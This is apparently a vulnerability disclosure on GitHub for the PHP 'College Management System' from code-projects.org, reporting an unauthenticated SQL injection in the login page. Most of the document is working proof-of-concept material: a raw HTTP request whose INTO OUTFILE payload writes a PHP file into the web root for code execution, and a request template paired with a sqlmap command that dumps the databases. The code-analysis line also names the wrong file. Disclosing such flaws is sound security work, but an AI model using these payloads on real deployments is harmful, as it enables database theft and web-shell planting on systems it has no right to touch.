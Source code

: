 # College_Management_System_In_PHP has write Trojan and sql injection vulnerability.

## supplier
https://code-projects.org/college-management-system-in-php-with-source-code/
## Vulnerability file
/Login/login.php
## describe
Through code audit, when there is an unauthorized SQL injection vulnerability in the Login/login.php of the College_Management_System_In_PHP_With_Source_Code foreground login portal, all the information of the database can be obtained without authorization, and arbitrary commands may be executed.

control parameter: $username, $_POST['email']

## code analysis
The **$username**parameters of the /Admin/detail.php are not filtered and concatenated into the SQL statement for execution. 

![image-20241106213724217](https://github.com/user-attachments/assets/dc7db8ca-4865-4049-bd0d-75a9fd16152e)



## POC

### RCE

```
POST /Login/login.php HTTP/1.1
Host: college-management-system
Content-Length: 160
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://college-management-system
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://college-management-system/Login/login.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=oa117fdapnuo3drltanp5r545l
Connection: close

email=1' or 1=1 union select 1,2,3,4,'<?php phpinfo();?>' into outfile 'D:/phpstudy_pro/WWW/College-Management-System/phpinfo.php';--+&password=1&btnlogin=LOGIN
```

The Trojan file is generated phpinfo.php in the root directory of the website, we access the phpinfo.php file through the browser, we can see that 1,2,3,4 and <?php phpinfo();?> are all generated into the file, and the access is resolved

![image-20241106214026957](https://github.com/user-attachments/assets/1cedae93-39a1-4e00-a009-f9e2a84a4436)

### GET DATA

```
POST /Login/login.php HTTP/1.1
Host: college-management-system
Content-Length: 160
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://college-management-system
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://college-management-system/Login/login.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=oa117fdapnuo3drltanp5r545l
Connection: close

email=1*&password=1&btnlogin=LOGIN
```

save as 1.txt 

excute the command 

```
python sqlmap.py -r 1.txt --dbs
```

![image-20241106215739160](https://github.com/user-attachments/assets/441372cf-cce6-4003-bf91-eb92d974fd81)